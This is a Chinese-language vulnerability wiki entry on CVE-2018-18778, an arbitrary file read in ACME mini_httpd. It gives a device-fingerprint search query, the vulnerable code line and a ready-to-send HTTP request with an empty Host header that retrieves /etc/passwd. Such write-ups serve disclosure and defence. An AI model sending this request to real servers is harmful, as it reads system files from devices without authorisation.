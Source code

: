 # ACME Mini_httpd 任意文件读取漏洞 CVE-2018-18778

## 漏洞描述

漏洞原因是由于没有过滤Http包头的特定字段，导致可以构造访问系统文件的路径，从而导致可访问任意文件，攻击者可以利用该漏洞读取设备的任意文件，这将严重威胁采用Mini_httpd的设备的安全性。

## 漏洞影响

<a-checkbox checked>ACME mini_httpd before 1.30</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ACME-mini_httpd"</a-checkbox></br>

## 漏洞复现

指纹信息

![img](/assets/PeiQi-Wiki/img/1651364999726-9489ab39-a1ab-4a52-b979-c2be1b30f708-20220501090543203.png)

在mini_httpd开启虚拟主机模式的情况下，用户请求`http://HOST/FILE`将会访问到当前目录下的HOST/FILE文件。

当`HOST=example.com、FILE=index.html`的时候，上述语句结果为`example.com/index.html`，文件正常读取。

当`HOST为空、FILE=etc/passwd`的时候，上述语句结果为`/etc/passwd`。

```java
(void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
```

发送请求包, 置空 host

```java
GET /etc/passwd HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Referer: http://192.168.0.144:8080/
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
x-requested-with: XMLHttpRequest
```

![img](/assets/PeiQi-Wiki/img/1651365228889-3cc62bb4-cb20-49d0-a6f6-c91258efc211-20220501090543427.png)